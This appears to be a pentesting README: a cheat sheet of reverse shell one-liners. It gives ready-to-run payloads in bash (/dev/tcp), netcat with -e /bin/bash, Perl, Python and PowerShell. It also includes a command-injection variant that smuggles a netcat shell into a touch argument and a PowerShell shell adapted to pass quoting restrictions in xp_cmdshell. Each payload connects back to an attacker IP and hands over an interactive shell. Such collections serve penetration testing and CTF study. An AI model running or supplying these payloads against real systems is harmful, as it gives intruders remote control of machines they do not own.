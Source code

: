 # Reverse shell scripts

## Proper working reverse shell
```
CTRL + Z -> It will run the session in the background
stty raw -echo
fg
fg
```

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Using shell
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Using Netcat
```
cmd=nc -nv 192.168.1.71 4444 -e /bin/bash  
```

## Using Perl
```
perl -e 'use Socket;$i="192.168.1.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.32\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'
```

## Command injection reverse shell
```
touch ; nc 10.10.14.52 5555 -e /bin/bash
touch '; nc 10.10.14.52 5555 -e /bin/bash'
```

### Powershell Oneliner
For xp_cmdshell (bypassing single quote restricion by including one more single quote)

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient(''10.1.1.1'',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```
